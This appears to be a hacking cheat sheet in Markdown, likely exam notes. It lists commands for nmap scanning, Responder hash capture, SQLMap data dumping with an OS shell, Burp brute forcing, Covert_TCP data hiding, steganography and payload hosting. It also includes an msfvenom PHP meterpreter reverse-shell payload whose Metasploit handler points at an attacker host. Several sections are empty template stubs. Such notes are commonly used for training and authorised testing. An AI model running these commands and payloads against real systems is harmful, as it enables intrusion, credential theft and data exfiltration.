 # Network Hacking

<details>
<summary>Nmap</summary>

## Nmap

* Scan for a live host

```console
nmap -sP <TARGET>
nmap -sn <TARGET>
```

* Scan for open ports

```console
nmap -p --open <port> <TARGET>
```

* OS Detection

```console
nmap -p --open <port> <TARGET>
```

* Comprehensive scan.

```console
nmap -p- --open -vv -Pn <TARGET>
```
</details>

<details>
<summary>Nmap Scripts</summary>

## Nmap Scripts

* LDAP Enumeration.

```console
nmap -p 389 --script ldap-search <TARGET>
```
</details>

<details>
<summary>NetDiscover</summary>

## NetDiscover

* Perform an ARP scan across the entire network to identify live hosts.

```console
netdiscover -i eth0
netdiscover -r <TARGET>
```
</details>

<details>
<summary>Wireshark</summary>

## Wireshark

* Wireshark offers the capability to reconstruct a stream of plain text protocol packets into a format that is easily readable by humans

```shell
select_packet > follow > TCP Stream
```

* Filter by an specific HTTP Method

```shell
http.request.method == POST
http.request.method == GET
```

* Trace a DOS/DDOS attack

```shell
# Sort by packets in IPv4 based on number of the packets transfer
Statistics > Conversations > IPv4 > Packets
```
</details>

<details>
<summary>CovertTCP</summary>

## CovertTCP

CovertTCP conceals transmission of data inside the IP header.
* [Covert_TCP](Covert_TCP.c) 

This can be used to analyze .cap files. It traverses through each line in Wireshark, targeting the identification field. Keep an eye on Hex value and ANSI value. Download and compile it.

```console
# Compiling Covert_TCP.c
cc -o covert_tcp covert_tcp.c
```

Now, specify the reciever machine (Client_IP). 

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
```

Specifying the attacker machine (Attacker_IP). Create the message file that will be need to be transfered (ex. secret.txt)

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
```
The secret message is sent using Covert_TCP nad it is then captured using Wireshark.

</details>

<details>
<summary>LLMNR/NBT-NS Poisoning</summary>

## LLMNR/NBT-NS Poisoning

The tool [Responder](https://github.com/lgandx/Responder)  servers as a rogue authentication server to capture hashes. Utilizing this method, one could obtain the password of a logged-in user who is attempting to access an unavailable shared resource.

* On Unix based systems

```console
# where -I = interface
responder -I eth0
```
On Windows, you could try to access shared resources. Logs are stored at usr/share/responder/logs/SMB. You can crack the hash using John The Ripper.

```console
john SMBfilename  
```
</details>

# Web Hacking

<details>
<summary>NSLookup</summary>

## NSLookup

You can use NSLookup to find the IP Address of a website.

```console
nslookup www.example.com
```
</details>

<details>
<summary>Banner Grabbing</summary>

## Telnet

```console
telnet www.moviescope.com 80

# Double enter
GET / HTTP/1.0
```

## whatweb

```console
# Default banner grabbing
whatweb www.example.com

# Verbose grabbing
whatweb -v www.example.com
```

## OpenSSL

You can perform banner grabbing over SSL using OpenSSL.

```console
# Install OpenSSL
sudo apt install openssl -y
openssl
s_client –host www.example.com -port 443
GET/HTTP/1.0
```

## Curl

```console
# HTTP Get request from a proxy
curl -x <proxy_IP>:8080 http://localhost/
```
</details>

<details>
<summary>Local File Inclusion</summary>

## Local File Inclusion

Create an PHP payload using msfvenom

```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attacker-port -f raw
```

Create the Reverse Shell with Metasploit

```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```

</details>

<details>
<summary>Web Spidering</summary>

## zaproxy

You can perform web spidering using zaproxy.

```shell
Automated Scan > http://www.example.com > Attack > Active Scan > Spider Tab > Alerts > Spider > Messages
```
</details>

<details>
<summary>Burpsuite</summary>

## Brute Forcing with Burpsuite

* You can perform a brute force attack using Burpsuite. 

```shell
# First, set up the Proxy.
Firefox Preferences > Proxy > Settings > Manual Proxy > 127.0.0.1 and Port 8080 > Check "Also use this proxy for FTP and HTTPS" > Ok

# Then fire up Burpsuite
Proxy > "Intercept On" > Switch to Firefox -> Go to the target website > Enter Random Credentials > Switch to Burpsuite

# Setting the payloads
Right click > Send to intruder > Intruder > Positions > Clear  > Cluster bomb under Attack type

# Username and password payload
Select the username > Add Payload > Select the Password > Add Payload

# Go to the payload tab
Payloads Tab > Payload set: 1 and type: Simple list 

# Under Payload options
Load > Select a wordlist like username.txt

# Do the same for the password
Payload set: 2 and type: Simple list > Under Payload options > Load > Select a wordlist like password.txt > Start attack
```

When finished, look at the status code of every attempt. 

</details>

<details>
<summary>SQLMap</summary>

## SQLMap

* List databases

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --dbs
```

* Alternative

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --data="id=1&Submit=Submit" --dbs  
```

* Listing tables of a database name

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --columns
```

* Listing the columns of such table

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name --tables
```

* Dump data

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --dump
```

* Setting OS Shell

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; ui-tabs-1=0 --os-shell
```

</details>

<details>
<summary>DLSS</summary>

## DLSS

Damn Small SQLi Scanner (DSSS) is a comprehensive tool designed for detecting SQL injection vulnerabilities. It is fully functional and capable of scanning both GET and POST parameters. Regarding optional configurations, it provides support for HTTP proxy along with HTTP header values such as User-Agent, Referer, and Cookie.

```console
python3 dsss.py -u "URL" --cookie="cookie"

# Then open the generated URL

```
</details>

# Steganography

<details>
<summary>Snow</summary>

## Snow

* Hide text

```console
snow.exe -c -p test -m "Secret Message" original.txt hide.txt
```

* Unhide text

```console
snow.exe -c -p test hide.txt
```

</details>

<details>
<summary>HashCalc</summary>

## HashCalc

* When opening the file, ensure MD5, SHA1, RIPEMD160 and CRC32 are selected. Then compare the hash after modiying the file.

</details>

<details>
<summary>HashMyFile</summary>

## HashMyFile

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>MD5 Calculator</summary>

## MD5 Calculator

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>VeraCrypt</summary>

## VeraCrypt

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>BCTextEncoded</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Keywords</summary>

## Keywords

* Image hidden > OpenStego
* File .hex > CrypTool
* Whitespace > Snow
* MD5 > HashCalc & MD5 Calculator
* Volume & Mount > VeraCrypt

</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Transfering Files

<details>
<summary>Apache</summary>

## Hacking Tool

* You can transfer local payloads to Windows using this way.

```shell
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
service apache2 start 
service apache2 status
```

* Then to download open a browser

```console
attacker_ip/share
```

* Windows to Linux > File System > Network > smb//Windows_IP

</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>
